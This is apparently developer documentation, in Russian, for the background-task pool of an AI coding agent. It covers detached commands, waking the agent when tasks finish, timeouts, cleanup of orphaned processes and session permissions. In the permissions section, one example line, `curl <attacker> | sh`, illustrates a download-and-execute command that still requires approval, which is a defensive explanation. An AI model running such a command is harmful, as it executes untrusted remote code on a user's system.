


# Фоновые задачи

`run_command` обычно блокирует весь ход, пока команда не завершится, и агент простаивает во время сборок, прогонов тестов, установок и пакетных загрузок. Фоновый вызов передаёт команду в **пул задач сессии** и сразу возвращает идентификатор задачи, поэтому агент продолжает работу и забирает результат позже.

## Интерфейс для модели

| Инструмент | Назначение |
|---|---|
| `run_command` с `background: true` | Запускает команду в отсоединённом режиме и возвращает `task_id` вместо вывода. |
| `background_list` | Все задачи сессии со статусом, прошедшим временем и оценкой. |
| `background_output` | Перехваченные stdout и stderr, в том числе пока задача ещё выполняется (`tail_lines`, по умолчанию 100). |
| `background_wait` | Ждёт ограниченное время (по умолчанию 60 с, максимум 300 с) и возвращает вывод, как только задача завершится. |
| `background_stop` | Завершает задачу и всю запущенную ею группу процессов, в том числе оставшуюся от прежнего запуска coddy. |
| `background_reap` | Убивает все фоновые процессы этой сессии, которые пережили запуск coddy, породивший их. |

Пулом управляют три дополнительных аргумента `run_command`:

- **`background`** (bool) - запустить команду в отсоединённом режиме;
- **`expected_seconds`** (int) - собственная оценка модели, сколько займёт работа. Оценка **рекомендательная** - от неё зависят индикатор статуса, который видит оператор, и, если `timeout_seconds` не указан, жёсткий тайм-аут. Заниженная оценка только помечает задачу **просроченной** и никогда не завершает её раньше времени;
- **`notify_on_finish`** (bool) - разбудить агента, когда задача завершится. По умолчанию true для фоновых команд, отсоединённых субагентов и команд, принятых в пул после тайм-аута на переднем плане, если доступен обработчик пробуждения. Чтобы отключить пробуждение, явно задайте false (см. ниже).

**Модель в каждом запросе узнаёт, что ещё выполняется.** Модель запускает задачу, продолжает работу и через несколько шагов должна помнить, что задача существует и что запущенный ею сервер всё ещё работает, когда она пишет итог. Блок контекста хода, которым заканчивается каждый запрос ([Сжатие контекста](compaction.md) держит системный промпт неизменным, поэтому всё меняющееся идёт после истории), содержит раздел `## Background tasks` - по строке на каждую выполняющуюся задачу сессии в формулировках `background_list` (`bg_3 [running] make test (elapsed 2m5s, estimated 5m) silent for 1m10s`). Раздел обходится в одну строку на задачу и избавляет от вызова `background_list`, который раньше был единственным способом это узнать. Завершённые задачи и [системные задачи](#системные-задачи) в раздел не попадают, а при `tools.background.enable: false` он не пишется вовсе (`backgroundTasksSection` в `internal/agent/turn_context.go`).

Промпт (`internal/prompts/agent.md` и его аналог для режима "План") объясняет модели, когда уводить команду в фон, и велит честно оценивать время, опрашивать задачу, а не висеть в активном ожидании на `background_wait`, останавливать запущенные ею серверы и вотчеры и читать итоговый статус, прежде чем подводить итог. Фоновое выполнение доступно в **обоих** режимах, "Агент" и "План" - агенту в режиме "План", который изучает репозиторий, тоже незачем пережидать медленную команду, которая только читает.

## Пробуждение агента по завершении задачи

Долгая работа без присмотра полезна, только если по её окончании что-то возобновит диалог. Поэтому фоновая команда, отсоединённый субагент или принятая в пул команда переднего плана, завершившись, **сами начинают новый ход агента**, и модель может закончить свой ход, передав работу. Явный `notify_on_finish: false` это отключает.

Исход задачи считается обработанным, если `background_wait` вернул её завершённой, `background_output` прочитан после завершения или вызван `background_stop`. Такая задача ещё одного хода не начинает. Чтение вывода, пока задача выполняется, не отменяет её будущего пробуждения. Задачи, завершившиеся почти одновременно, собираются в один ход, и лимит пробуждений на сессию по-прежнему действует.

### Какой процесс будит агента

Каждый процесс, который выполняет ходы, подключает к своему пулу задач один обработчик пробуждения под одной подпиской **с ключом** (`bgtask.WakeWatcherKey`), поэтому пересборка интерфейса заменяет наблюдателя, а не добавляет ещё одного.

| Процесс | Где выполняется ход после пробуждения |
|---|---|
| `coddy` без аргументов (консоль) | в консоли, в её собственной горутине UI, как набранный промпт; инструмент, требующий разрешения, открывает модальное окно разрешения |
| `coddy acp` | через менеджер, с редактором в роли отправителя - обновления попадают в диалог, открытый в редакторе, и разрешение на инструмент спрашивают там же |
| `coddy serve` | интерфейс, которому принадлежит сессия (привязанный к ней Telegram-чат), иначе HTTP-сервер, а если не поднят ни тот, ни другой, сам менеджер (см. ниже) |
| `coddy -p`, субагент, запуск по расписанию | нигде - ход никто не начнёт |

**Инструмент обещает только то, что произойдёт.** `run_command` и `spawn_agent` спрашивают у пула, подписан ли обработчик пробуждения (`Pool.CanWake`) и может ли сессия вообще принять ход. Если может, результат говорит *You will be woken with the outcome when it finishes*, а задача записывает `notify_on_finish`; если нет, результат сообщает, что модель никто не разбудит, и называет вместо этого `background_list`, `background_wait` и `background_output`, а задача не записывает пробуждения, которого не получит. Транскрипт дочернего агента или запуска по расписанию запечатывается, когда его ход завершается, поэтому запущенная там задача никого не будит.

### Как выглядит ход после пробуждения

Ход после пробуждения начинается с простого изложения исхода, и именно его читает модель. В нём перечислены все задачи с идентификатором, статусом, меткой, кодом выхода, временем работы и ошибкой, если она была, инструмент с подробностями (`background_output`) и напоминание, что задача, которая завершилась ошибкой, по тайм-ауту или была остановлена, успехом не закончилась. Для незавершённого запуска субагента там же назван вызов `spawn_agent` с `resume`, который продолжает того же дочернего агента ([Продолжение запуска](subagents.md#продолжение-запуска)).

Это сообщение никто не набирал, и ни один интерфейс не показывает его так, будто набирал. Первое сообщение хода после пробуждения сохраняется с меткой (`background_wake` в `messages.json` и в `GET /coddy/sessions/{id}/messages`, задачи с их исходом), а ход открывается обновлением сессии `background_wake` ещё до записи сообщения, поэтому клиент, перезагрузившийся между ними, увидит пробуждение один раз. Когда ход начинается, пул помечает его задачи как разбудившие агента (`woke_agent` в строке задачи, хранится в записи задачи).

Там, где список задач стоит рядом с диалогом, ход после пробуждения ничего своего не показывает и читается как продолжение работы агента:

- **Веб-интерфейс** - на месте облачка пользователя ничего нет, ответ идёт сразу за предыдущим ходом, а карточка задачи сохраняет колокольчик ([Какие задачи будят агента](#какие-задачи-будят-агента)). Пробуждение всё равно считается ходом - правка более позднего сообщения и откат после него нумеруются так же, как их нумерует сервер, а неудавшийся ход после пробуждения не предлагает повтора, потому что повторно отправлять нечего;
- **Консоль** - то же самое, и вживую, и когда `/resume` воспроизводит сессию; строка задачи в `/tasks` говорит `woke the agent`.

У чисто текстовых интерфейсов списка задач рядом с чатом нет, поэтому о том, что разбудило агента, сообщает строка с исходом, изложенным словами:

- **ACP** - обновление сессии `background_wake`, а за ним, для редактора, который отображает только стандартные обновления, строка текста агента в цитате, *Woken by a finished background task: bg_3 make test, failed, exit 2, 1m 30s*; `session/load` воспроизводит её так же;
- **Telegram** - отдельное сообщение над ответом, *🔔 Woken by a finished background task: bg_3 make test, failed, exit 2, 1m 30s*.

### Под `coddy serve`

Обработчик пробуждения принадлежит процессу (`serve.Runtime`) независимо от того, какие интерфейсы включены, и ход после пробуждения уходит тому интерфейсу, который должен его выполнить:

1. **Telegram-чат, привязанный к сессии.** Ход выполняется точно так же, как сообщение, которое прислал человек, - с собственным отправителем чата и с зеркалированием в HTTP-релей, чтобы браузер, наблюдающий за сессией, видел ход. Чат получает строку о пробуждении, а затем ответ, независимо от того, запущен ли HTTP-сервер. Разрешения работают так же, как в чате - агенту чата разрешено то, что он запрашивает, а о субагенте спрашивают в чате;
2. **HTTP-сервер.** Ход идёт через релей поля ввода сессии, поэтому за ним следят веб-интерфейс и консоль, подключённая через `--remote`. Запросы разрешений в нём **задаются**, а не отклоняются - запрос уходит в релей и сохраняется как ожидающий запрос сессии, веб-интерфейс показывает его (и восстанавливает после перезагрузки), следящая консоль показывает его в модальном окне, а первый ответ через `POST /coddy/sessions/{id}/permission` закрывает его. Запрос ждёт так же, как ждёт запрос хода из браузера, вкладку которого закрыли. Вопрос внутри хода после пробуждения по-прежнему отклоняется - для клиента, который придёт позже, его никто не сохраняет;
3. **Никто.** Когда не поднят ни тот, ни другой интерфейс (`coddy serve` запущен только с планировщиком или чат бота переключился на другую сессию), среда выполнения всё равно выполняет обещанный ход через менеджер, а транскрипт хранит исход для того, кто откроет сессию следующим. Вызов инструмента, требующий разрешения, внутри такого хода **отклоняется**, если `tools.permission_mode` не равен `bypass`, потому что ответить некому.

`GET /coddy/events` объявляет ход после пробуждения событием `background_wake` вместе с задачами. Консоль, подключённая через `--remote`, читает только те ходы, которые начала сама, поэтому так она узнаёт, что есть ход, за которым стоит следить. Она подключается к релею поля ввода сессии и отображает ход - ответ и запрос разрешения, который она снова убирает, если веб-интерфейс ответит первым. Консоль, которая открывает сессию, когда такой ход уже идёт (она была закрыта, когда задача завершилась), узнаёт о нём из `GET /coddy/sessions/{id}/activity` (`backgroundWake`) и подхватывает ход с того места, где кончается загруженный ею транскрипт, поэтому запрос, ждавший кого-нибудь, получает ответ там. После обрыва соединения снимок потока событий снова объявляет пробуждение, и консоль подхватывает тот же ход после последнего показанного кадра.

### Время и лимиты

- **Задачи, завершившиеся вместе, стоят одного хода.** Короткое окно ожидания собирает всплеск в пачку, поэтому три результата приходят одним ходом с тремя строками, а не тремя ходами;
- Ход берёт **блокировку хода поля ввода**, которая отказывает, а не ставит в очередь - сессия, в которой ход уже идёт, сразу отвечает `ErrSessionTurnBusy`. Поэтому ждать - работа обработчика пробуждения. Он **повторяет ту же пачку** (через 1 с, удваивая интервал до потолка в 15 с), пока сессия не освободится, и только тогда начинает ход. HTTP-сервер берёт блокировку до того, как регистрирует релей хода после пробуждения, поэтому отклонённая попытка никогда не обрывает наблюдателей идущего хода;
- **О задаче, которая завершилась внутри собственного хода, всё равно сообщается.** Случай самый обычный - модель запускает задачу, продолжает говорить, и всё, что падает в первые секунды, завершается, пока запустивший ход ещё открыт. Исход ждёт этого хода и приходит после него, а не теряется. Всё, что завершилось за время ожидания, попадает в ту же пачку, поэтому длинный ход по-прежнему стоит одного пробуждения. Если ход сессии никак не заканчивается, обработчик сдаётся через 30 минут и пишет в журнал `background_wake_abandoned`; любой другой сбой хода записывается как `background_wake_failed` и не повторяется, потому что повтор только крутился бы впустую;
- **Консоль придерживает пробуждение для сессии, которую не показывает.** Задача сессии, которую оператор покинул через `/new` или `/resume`, ждёт его возвращения (это повтор обработчика пробуждения при занятой сессии), и консоль один раз сообщает, где именно ждёт;
- **Остановка ничего не будит.** Сворачивание останавливает работающие задачи, и остановка окончательна; без этой защиты каждая задача, убитая при остановке, начинала бы ход, который никто не прочитает;
- Ход после пробуждения может запустить ещё одну задачу с уведомлением. Это законный приём для работы без присмотра, но заодно и способ сжечь за ночь токены в цикле. Последний рубеж - `maxWakesPerSession` (50 на процесс, `internal/agent/background_notify.go`); когда лимит достигнут, ходы больше не начинаются, а в журнал пишется `background_wake_capped`. Бюджет считает только реально выполненные ходы - попытка, которую отклонила занятая сессия или остановка, возвращается в бюджет, поэтому ожидание одного длинного хода не может его исчерпать.

### Какие задачи будят агента

Выполняющаяся задача, которая начнёт ход, когда завершится, говорит об этом везде, где она показана - **колокольчик** после заголовка на её карточке в панели задач (подсказка *Разбудит агента, когда завершится*), `wakes the agent` в её строке в `/tasks` консоли и `wakes you when it ends` в `background_list` и в контексте хода, чтобы модель не тратила ход на ожидание задачи, которая её и так разбудит.

Завершённая задача сохраняет отметку, если её завершение действительно начало ход - колокольчик остаётся на карточке (подсказка *Разбудила агента, когда завершилась*), а её строка в `/tasks` говорит `woke the agent`. Веб-интерфейс и консоль показывают там, что разбудило агента, потому что сам ход после пробуждения ничего не показывает. Задача, которая должна была разбудить агента, но не разбудила (ход ещё не начался или уже не начнётся, потому что процесс исчез), после завершения отметки не несёт.



*Упавший прогон тестов разбудил агента, и транскрипт просто продолжается его ответом; сборка, которая ещё идёт, разбудит его снова*

Реализация - `internal/agent/background_notify.go` (`BackgroundWaker`, `Wake`, `WakeInstruction`), `internal/serve/wake.go` (владелец в процессе `coddy serve`), `Server.RunBackgroundWake` (`external/httpserver/background_http.go`), `Bot.RunBackgroundWake` (`external/gateway/telegram/wake.go`), `App.attachBackgroundWaker` (`external/cli/background.go`), `acpWakeRunner` (`cmd/coddy/acp_wake.go`) и следящий клиент в `internal/remote/follow.go`. Проектная запись - `docs/plans/background-wake.md`.

## Тайм-ауты

У задачи всегда есть жёсткий лимит, который определяется в таком порядке:

1. явный `timeout_seconds` побеждает, даже намеренно короткий;
2. иначе лимит равен **3×** от указанного `expected_seconds`, но не меньше **60 с**, чтобы слишком оптимистичная оценка не убила работу, которая лишь немного затянулась;
3. иначе `tools.background.default_timeout_seconds` (900 с).

Результат ограничен сверху `tools.background.max_timeout_seconds` (3600 с). Достигнув лимита, пул завершает группу процессов и записывает задачу как `timed_out`. Это считается неудачей, и модели велено сообщать о ней как о неудаче.

**Принятая в пул** задача (см. ниже) - единственный случай, когда вызывающая сторона не задаёт лимит, и она сразу получает `max_timeout_seconds`. Оценки за ней нет, а единственное число, которое ни в коем случае нельзя использовать повторно, - тайм-аут переднего плана, который она только что пережила. Явный `timeout_seconds` применяется как есть, поэтому передача истёкшего значения убила бы задачу за миллисекунды.

## Приём в пул - команда переднего плана, пережившая свой тайм-аут

`run_command` на переднем плане по умолчанию ждёт 30 секунд. Убивать в этот момент всё, что ещё работает, неправильно вдвойне. Dev-сервер или вотчер делает ровно то, о чём просили, а всё, что запустила оболочка, переживает kill, направленный только в оболочку, и продолжает держать унаследованный канал вывода, из-за чего раньше `cmd.Wait` зависал навсегда вместе со всем ходом.

Поэтому команду **передают пулу, а не убивают**. Процесс продолжает работать в той же группе процессов, его поток вывода перенаправляется в приёмник задачи, куда сначала сбрасывается всё уже перехваченное, а инструмент отвечает так.

```
Command still running after 30s. It was NOT cancelled: it now runs as background task bg_3 (hard timeout 1h).
Follow it with background_output task_id="bg_3", background_wait, or terminate it with background_stop.
Do NOT run this command again with a larger timeout_seconds: it is already running, and a second copy would fight the first one for the same ports, locks and files.
Output captured so far:

  App running at:
  - Local:   http://localhost:8081/
```

Сначала идёт уведомление, потом вывод, потому что потолок вывода инструмента обрезает текст с конца. Это обычный результат инструмента, не ошибка. Цикл агента показывает модели текст ошибки и отбрасывает строку результата, поэтому перехваченный вывод терялся как раз тогда, когда тайм-аут возвращался ошибкой.

Дальше это обычная задача - до неё дотягиваются `background_list`, `background_output`, `background_wait` и `background_stop`. По умолчанию по завершении она будит агента, если доступен обработчик пробуждения, а вызов не задал `notify_on_finish: false`; прошедшее время отсчитывается от исходного старта на переднем плане, а не от передачи в пул.

Команда **всё-таки** завершается вместе со всей группой процессов в трёх случаях, когда забрать её некому - ход отменён, пул не подключён или пул отказал (`tools.background.enable: false`, сессия упёрлась в `max_concurrent`, процесс сворачивается). Тогда ответ называет точную причину и указывает на `background: true`.

Реализация - `Pool.Adopt` (`internal/bgtask/pool.go`) идёт тем же единственным путём планирования, что и `Pool.Start`; на стороне оболочки это `startForeground` и `adoptedHandle` в `internal/tools/shell/foreground.go`, а `switchWriter` придерживает вывод, пока пул его не заберёт. На каждую команду приходится ровно один `cmd.Wait` - пул получает тот же результат, а не вызывает его ещё раз.

Известное ограничение. Принятая в пул команда продолжает писать в канал, который `exec` создал для запуска на переднем плане, а этот канал вычитывается только до возврата `cmd.Wait`. Если команда отсоединяет демона, а её оболочка затем завершается, `WaitDelay` закрывает канал через пять секунд, и задача записывается завершённой с кодом выхода оболочки - демон продолжает работать, но всё, что он напечатает после этого, теряется. Это осознанный компромисс, потому что без `WaitDelay` ожидание зависло бы на унаследованном канале ровно так же, как в исходной ошибке. Команд, которые держат свой сервер на переднем плане оболочки (dev-серверы по умолчанию так и делают), это не касается.

## Вывод очищается при чтении

Перехваченные байты хранятся в `output.log` как есть; escape-последовательности и перерисовки прогресса через возврат каретки вырезаются, когда вывод **читают** (`platform.SanitizeOutput`, его применяют `bgtask.decodeOutput` и сам `run_command`). Иначе сборка webpack или vue-cli тратит большую часть вывода на перерисовки `\x1b[2K\x1b[1A`, и нужная строка тонет в них. Очистка при чтении оставляет журнал на диске точной записью и не портит escape-последовательности, разрезанные между двумя записями.

## Жизненный цикл и хранение

Пул живёт **внутри работающего процесса `coddy`**. Каждая задача дублирует свои метаданные и перехваченный вывод в бандл сессии.

```
<sessionDir>/background/<task_id>/meta.json
<sessionDir>/background/<task_id>/output.log
```

`meta.json` также хранит pid лидера группы процессов, а на Windows ещё и точное
время создания процесса в ОС как `process_started_at`. Эти идентификационные данные
относятся к служебным метаданным хранения и в строку задачи HTTP не входят. Они нужны
только для того, чтобы следующий запуск coddy мог доказать, что повторно выданный pid не принадлежит другому процессу.

Окно вывода в памяти ограничено (`tools.background.output_buffer_bytes`, 256 КиБ), чтобы болтливая задача не росла без предела; журнал на диске хранит всё. Чтение сохранённого журнала ограничено его последними 256 КиБ, чтобы вотчер, проработавший сутки, нельзя было целиком затянуть в память, а ответ помечает усечение.

- **Сворачивание сервера** и **удаление сессии** завершают все работающие задачи затронутой области, поэтому остановка coddy не оставляет за собой осиротевших деревьев процессов оболочки;
- **После перезапуска** задача, записанная как ещё выполняющаяся, показывается как **`orphaned`**, а не как вечно работающая. Эта поправка вычисляется при каждом чтении и намеренно **не** записывается обратно - HTTP-список опрашивается, и перезапись затирала бы метаданные задач, которые ещё работают в этом процессе, и состязалась бы с записью того же файла самим супервизором. Счётчик идентификаторов продолжается после всех номеров, которые уже есть в бандле, поэтому новая задача никогда не перезапишет журнал одноимённой задачи из прежнего процесса.

Статусы - `queued`, `running`, `succeeded`, `failed`, `timed_out`, `stopped`, `orphaned`.

## Зависшие и оставшиеся процессы

Это две разные проблемы с двумя разными ответами.

**Зависшая** - задача, которая выполняется, но ничего не делает. Снаружи этого не узнать, поэтому пул сообщает единственный известный ему факт - как долго задача ничего не выводит. После минуты тишины `background_list` помечает выполняющуюся задачу как `silent for …`. Это только подсказка, решения она не выносит - `sleep`, dev-сервер и вотчер и должны молчать. Модель читает команду, решает и вызывает `background_stop`. Для всего, на что никто не смотрит, последним рубежом остаётся жёсткий тайм-аут.

**Оставшийся** - процесс, переживший запуск coddy, который его породил, потому что тот запуск убили, а не свернули. Запись задачи хранит **pid лидера группы процессов**, поэтому новый coddy отличает запись, чьих процессов уже нет (показывается как `orphaned`), от записи, чьи процессы всё ещё живут на этой машине. `background_list` помечает такие `still alive from an earlier run`, `background_stop` достаёт такой процесс по идентификатору, а `background_reap` разом убивает их все для сессии.

Кандидатом на зачистку становится только запись, которая всё ещё числилась **выполняющейся**, когда её процесс умер. Нормально завершившаяся задача оставляет устаревший pid, а ОС выдаёт pid повторно, и действие по такому pid убило бы посторонний процесс.

Проверка, на которой это держится, должна отвечать на вопрос **"работает ли ещё процесс этой задачи"**, а не "отзывается ли что-то на этот номер", и на двух платформах до этого приходится добираться по-разному:

- В unix сигнал **группе процессов** `-pid` сразу выполняет обе проверки - завершившаяся задача оставляет пустую группу (`ESRCH`), а повторно выданный pid совпадёт, только если он тоже возглавляет группу, что сильно сужает повторное использование, хотя и не исключает его. Проверка времени старта лидера вместо этого открыла бы дыру похуже - группа переживает своего лидера, а лидер, который завершился, пока его дочерние процессы продолжали работать, и есть тот выживший, которого стоит найти;
- В Windows сопоставимой проверки группы нет, а очевидная замена (открыть процесс по pid) ошибается в обе стороны. **Объект** процесса живёт дольше самого процесса, пока кто-нибудь держит на него дескриптор (а `os.FindProcess` открывал дескриптор при каждой проверке, так что сама проверка и не давала трупу исчезнуть), а открытие по номеру находит **любой** процесс, без требования быть лидером группы, которое отсеяло бы повторно выданные pid. Поэтому проверка в Windows вызывает `WaitForSingleObject` с нулевым тайм-аутом, который отличает работающий процесс от удерживаемого трупа, а затем требует, чтобы точное **время создания** совпало с `process_started_at`, полученным от Windows при запуске задачи. Если идентификационных данных нет или их не удаётся прочитать, проверка отвечает отказом.

Если сначала доказать, что это тот же процесс, а потом убивать по номеру, между этими шагами всё равно останется окно, поэтому в Windows убийство заново открывает pid, заново проверяет время создания и **держит этот дескриптор открытым на всё время работы `taskkill`**. Windows не освобождает pid, пока открыт хоть один дескриптор его объекта процесса, поэтому за это время номер никому не достанется, а `taskkill /T` всё равно находит дочерние процессы, которые называют его своим родителем. Живость процесса здесь намеренно не требуется - у уже завершившегося лидера могут быть работающие дочерние процессы, и ради них всё и затевается.

Благодаря этому сравнению зачистке никогда не нужен свежий pid от оператора - в записи есть всё, чтобы доказать, что pid по-прежнему означает то же, что и раньше.

**Обновление** - записи, сделанные до появления `process_started_at`, несут pid без идентификационных данных. В Windows их уже не доказать, поэтому они не попадают в список оставшихся, и `background_reap` их не тронет - так то же правило срабатывает в сторону отказа. Если такой запуск действительно оставил процесс, убейте его средствами ОС и удалите устаревший бандл сессии. Unix это не затрагивает, потому что его проверка идентификационные данные никогда не использовала.

Инструмента, который убивает произвольный pid, намеренно **нет**. `run_command` и так может выполнить `kill`, и этот вызов проходит через проверку разрешений; отдельный инструмент обходил бы её.

## Разрешения

Фоновая команда проходит ту же проверку разрешений, что и команда на переднем плане, - уход в фон не обходит одобрение. Иначе пачка вызовов, которые отличаются только аргументами, спрашивала бы о каждом, поэтому диалог предлагает четвёртый вариант рядом с **Разрешить** / **Всегда разрешать** / **Отклонить**.

**Всегда разрешать `<program>`** расширяет разрешение с точной команды до самой программы. Кнопка называет ту самую запись списка разрешённых команд, которая будет сохранена, поэтому оператор одобряет именно ту строку, что попадёт в хранилище:

- `curl -s https://example.com/a` → разрешает **`curl`**, и это разрешение покрывает `curl` с любыми аргументами;
- `git status --short` → разрешает **`git status`**, потому что у мультиплексоров (`git`, `go`, `npm`, `docker`, `make`, `kubectl`, …) первый аргумент определяет, что на самом деле произойдёт; `git push` по-прежнему спрашивает.

Расширение предлагается **только** для одиночного простого вызова. Всё, что содержит метасимволы оболочки (`| & ; < > $( ) backtick * ? [ ] { } ! # ~ % @`, перевод строки) или начинается с присваивания `VAR=`, получает узкое разрешение. `Allow always` сохраняет прежний смысл; более широкое разрешение никогда не подразумевается.

Разрешения действуют в пределах сессии (`internal/session.State.PermissionCommandGrants`). Сопоставление намеренно строже, чем для `tools.command_allowlist`, который пишет оператор, - разрешение сессии покрывает только такую команду-кандидата, которая сама представляет собой одиночный простой вызов. Хвостовые аргументы, как и раньше, покрываются, а дописанная обвязка оболочки нет, и `curl <attacker> | sh` спрашивает снова даже при разрешении на `curl`. Собственный `tools.command_allowlist` оператора сохраняет задокументированный смысл префикса.

## HTTP-интерфейс

| Метод | Путь | Назначение |
|---|---|---|
| `GET` | `/coddy/sessions/{id}/background-tasks` | Строки задач и счётчик `running`. |
| `GET` | `/coddy/sessions/{id}/background-tasks/{task_id}` | Одна задача с перехваченным выводом `output` (необязательный `?tail=N`). |
| `POST` | `/coddy/sessions/{id}/background-tasks/{task_id}/stop` | Завершает задачу и возвращает итоговую строку и вывод. |

Строки несут исходный снимок и вычисленные сервером `elapsed_seconds`, `overdue` и `running`, поэтому все клиенты одинаково считают время. Задачи, записанные прежним процессом, подмешиваются из бандла сессии как `orphaned`.

SPA **опрашивает** эти эндпоинты, а не слушает SSE, потому что фоновая задача переживает поток хода, который её запустил. Интервал опроса - 2,5 с, пока что-то выполняется, и 15 с в остальное время.

## Веб-интерфейс

Панель **встроена в сессию** справа от транскрипта, по адресу `#/s/<sessionId>/tasks` (и `#/s/<sessionId>/tasks/<task_id>` для одной задачи). Маршрут несёт чат, поэтому перезагрузка восстанавливает и диалог, и панель. Такое расположение и отвечает на вопрос "какая сессия породила этот процесс" - панель входит в диалог, который запустил задачи, так что подписывать ничего не нужно.

- **Каждая задача - одинаковая карточка**, что бы за ней ни стояло и идёт она или уже завершилась. На карточке статусная точка, **тег**, который говорит, что за ней стоит (`shell` для команды, имя агента для запуска субагента, `memory` для запуска памяти в ходе, `server` для сервера предпросмотра), заголовок (команда или то, что поручили агенту) и строка под ним - пока задача идёт, прошедшее время относительно оценки, а потом сколько она работала и когда закончилась (`20s · 12:50`). Чем закончилась задача, показывает цвет точки; словами карточка говорит это только в раскрытом виде. Запуск субагента, запуск по расписанию и запуск памяти также показывают справа на этой строке модель, на которой они работают, и токены, потраченные их вызовами (`qwen3.8-27b · 212k tokens`), и обновляют их по ходу работы; при наведении на карточку видны полный идентификатор модели и отдельно входные и выходные токены. У выполняющейся карточки добавляются кнопка остановки, **колокольчик** после заголовка, если задача разбудит агента, когда завершится (подсказка *Разбудит агента, когда завершится*), и, **только** если модель дала оценку, индикатор прогресса; завершённая карточка сохраняет колокольчик, если её завершение действительно разбудило агента (подсказка *Разбудила агента, когда завершилась*). Выполняющиеся задачи стоят наверху панели без заголовка, и всё, что выше счётчика **Завершённых: N**, выполняется;
- **Щелчок в любом месте карточки раскрывает её на месте.** Второй панели нет. Раскрытая карточка показывает команду с кнопкой копирования (у запуска агента и у сервера предпросмотра оболочки за ними нет, и там ничего не показывается), ошибку, если запуск ею закончился (но не голый `exit status 2` команды, который лишь повторяет код выхода), перехваченный вывод в блоке с собственной прокруткой, а внизу - чем закончилась задача и её код выхода (`Failed · Exit code 2`; у запуска агента и сервера предпросмотра процесса за ними нет, поэтому там назван только исход). Сколько задача работала и вход в неё (**Показать транскрипт** для запуска субагента, адрес сервера предпросмотра) остаются на собственной строке карточки, где их видно, раскрыта карточка или нет. Раскрывайте сколько угодно карточек - каждая продолжает читать собственный вывод, пока её задача идёт. Какие карточки раскрыты, в адрес не входит, он говорит только о том, что панель открыта;
- **В окне ширины десктопа панель следует за чатом.** Откройте её, а затем выбирайте другие чаты в "Истории" - панель остаётся открытой и показывает задачи каждого выбранного чата, а щелчок мимо "Истории", который её закрывает, оставляет панель открытой. На планшете или телефоне панель занимает весь экран, и открытие "Истории" закрывает её, как и раньше;
- **Завершённых: N** только считает задачи и не перечисляет их. Раскрытый счётчик показывает завершённые карточки, а остальное остаётся на диске. Так одновременно выполняются требования "хранить каждый журнал" и "не нагружать приложение" - список считается, карточки отрисовываются по запросу, а вывод задачи загружается, только когда её карточку раскрывают;
- **Очистить** удаляет историю завершённых задач этой сессии (`DELETE /coddy/sessions/{id}/background-tasks`). Выполняющиеся задачи не затрагиваются;
- Порядок задаётся **только временем старта**, сначала новые, и среди живых карточек, и внутри истории завершённых. Выполняющиеся задачи не поднимаются в начало истории - они и так стоят над счётчиком, а смешение двух порядков даёт список, который никогда не замирает настолько, чтобы его можно было прочитать;
